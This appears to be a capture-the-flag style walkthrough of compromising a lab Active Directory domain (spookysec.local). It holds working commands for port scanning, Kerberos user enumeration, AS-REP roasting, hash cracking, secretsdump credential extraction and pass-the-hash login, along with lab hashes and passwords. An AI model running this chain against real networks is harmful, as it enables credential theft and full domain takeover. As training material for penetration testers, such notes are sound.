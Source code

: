 #ActiveDirectory
### Enumeration
#### nmap
```nmap
sudo nmap -sS -n --open -vvv -Pn -p- --min-rate 5000 machine_ip -oG allPorts
```
Extract ports owo
```nmap
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49668,49669,49670,49673,49678,49683,49688,49698 machine_ip -oN targeted
```
##### enum4linux
`enum4linux machine_ip`

#### via Kerberos
*Kerberos* -> Kerberos is a key authentication service within Active Directory
With this port open, we can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) to brute force discovery of users, passwords and even password spray!
```kerbrute
./kerbrute_linux_amd64 userenum --dc machine_ip -d spookysec.local users.txt
```

### Abusing Kerberos
#### ASREPRoasting
ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

```
impacket-GetNPUsers spookysec.local/ -dc-ip machine_ip -no-pass -usersfile users.txt -request
```
`$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a5bb47e1b6eceda53ee2a63d7bee627e$93146347505981c744dc235316e683c57799299935be44910a45b2fb5e465b3fa1b2b5fee8c54e48db5a6083cfa0054d002fb3dee042f998ce88c5bc66a2fcf2d16ece16b9215078b7a8c7381d98b995507940c4802c3e845cd9414cc90a94340086031871057d8b9c7e0956db6515c3c48c7b3b4319d31e59a24a1d1b9da6e02b8a4e4d240d8d2afa67ccdbcefa7af06c7e5e87f4cbe4a135f9e6d6ee907310eda0b8fb10bceac9add93f6bd809f2a69d8c7bb9a55918be6cd128d7e8d7d1d6e863c9d2e310819fde1ade340c8942eda1865133537ee7d9d533d92800e6a1262824607ea4ae5a48eca97545d75c8f22780a` 
Crack the Kerberos 5, etype 23, AS-REP hash with hashcat
```hashcat
hashcat -m 18200 -a 0 '$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a5bb47e1b6eceda53ee2a63d7bee627e$9
3146347505981c744dc235316e683c57799299935be44910a45b2fb5e465b3fa1b2b5fee8c54e48db5a6083cfa0054d002fb3dee042f998ce88c5bc66a2fcf2d16ece
16b9215078b7a8c7381d98b995507940c4802c3e845cd9414cc90a94340086031871057d8b9c7e0956db6515c3c48c7b3b4319d31e59a24a1d1b9da6e02b8a4e4d240
d8d2afa67ccdbcefa7af06c7e5e87f4cbe4a135f9e6d6ee907310eda0b8fb10bceac9add93f6bd809f2a69d8c7bb9a55918be6cd128d7e8d7d1d6e863c9d2e310819f
de1ade340c8942eda1865133537ee7d9d533d92800e6a1262824607ea4ae5a48eca97545d75c8f22780a' passwords.txt
```
	User: svc-admin Password:management2005

#### Enumerate with smbclient
Since we have a user and password, smbclient will be used to enumerate the remote shares
```smbclient
smbclient --list=machine_ip --user svc-admin
```
User is prompted for password

Connect to the share `backup`
```smbclient
smbclient //machine_ip/backup --user=svc-admin%management2005
```
Download backup_credentials.txt
`echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 --decode`
backup@spookysec.local:backup2517860%

### Elevating privileges
Dump the admin hash
```
impacket-secretsdump spookysec.local/backup:backup2517860@machine_ip -just-dc-user Administrator
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
```

*Authenticate with the hash usin evil-winrm*
```evil-winrm
evil-winrm -i machine_ip -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
